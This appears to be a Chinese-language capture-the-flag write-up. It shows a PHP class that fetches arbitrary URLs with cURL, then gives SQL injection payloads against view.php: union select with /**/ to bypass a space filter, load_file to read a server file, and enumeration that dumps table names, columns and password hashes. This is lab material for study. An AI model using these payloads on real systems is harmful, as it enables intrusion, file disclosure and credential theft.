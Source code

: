 ```php
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

```
?no=1%20order%20by%205 // 回显错误
?no=1%20order%20by%204 // 正常回显
```

因为过滤了空格，使用`/**/`绕过

`/view.php?no=-1%20union/**/select%201,2,3,4`

发现`2`回显，使用`load_file`读取文件

`/view.php?no=-1%20union/**/select%201,load_file('/var/www/html/flag.php'),3,4`

可以直接读取到`flag`，然后查看源码即可读取到`flag`

也可以继续注入

```
/view.php?no=-1%20union/**/select%201,database(),3,4
return: fakeroot

/view.php?no=-1%20union/**/select%201,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
return: users

/view.php?no=-1%20union/**/select%201,group_concat(column_name),3,4 from information_schema.columns where table_name="users"
return: no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS 

/view.php?no=-1%20union/**/select%201,group_concat(username,passwd),3,4 from users
return: adminc7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ecO:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:7:"123.php";} 
```